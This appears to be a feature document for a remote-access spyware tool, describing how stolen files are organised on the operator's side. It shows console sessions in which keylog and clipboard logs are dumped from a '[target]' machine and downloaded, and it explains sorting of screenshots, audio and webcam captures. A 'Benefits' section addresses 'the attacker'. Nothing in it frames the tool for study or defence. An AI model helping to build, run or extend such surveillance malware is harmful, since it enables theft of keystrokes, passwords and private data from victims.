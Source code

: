   ```
   [target]> keylog_dump
   Keylog file ready: logs/keylog/keylog_20241004_123456.txt
   [*] Downloading keylog file...
   [+] Keylog file downloaded: logs/keylog/keylog_dump_20241004_123456.txt
   === Keylog Content ===
   ...
   ```

6. **Clipboard Dump (Automatic):**
   ```
   [target]> clipboard_dump
   Clipboard log file ready: logs/clipboard/clipboard_20241004_123456.txt
   [*] Downloading clipboard log file...
   [+] Clipboard log file downloaded: logs/clipboard/clipboard_dump_20241004_123456.txt
   === Clipboard Log Content ===
   ...
   ```

## File Type Detection

The system uses multiple methods to determine the correct folder:

1. **Path-based detection**: Checks if the remote file path contains specific folder names (e.g., `logs/screenshots`)
2. **Filename-based detection**: Analyzes the filename pattern (e.g., `screenshot_`, `audio_`, `webcam_`)
3. **Extension-based detection**: Checks file extensions (e.g., `.wav` for audio, `.png` for screenshots)

## Benefits

1. **Automatic Organization**: Files are automatically sorted into appropriate folders
2. **No Manual Work**: The attacker doesn't need to manually move or organize files
3. **Consistent Structure**: Maintains the same folder structure as on the target machine
4. **Easy Navigation**: Files are easy to find in their respective categories
5. **Clean Workspace**: Prevents cluttering the main directory with downloaded files

## Backward Compatibility

- Files that don't match any known pattern are saved to the current directory
- This ensures that custom downloads still work as expected
- Existing functionality is preserved while adding automatic organization

## Notes

- Directories are created automatically if they don't exist
- Timestamps ensure unique filenames and prevent overwrites
- The system works for both manual downloads and automatic dumps
- All download operations include proper error handling

# Download Organization Flow Diagram

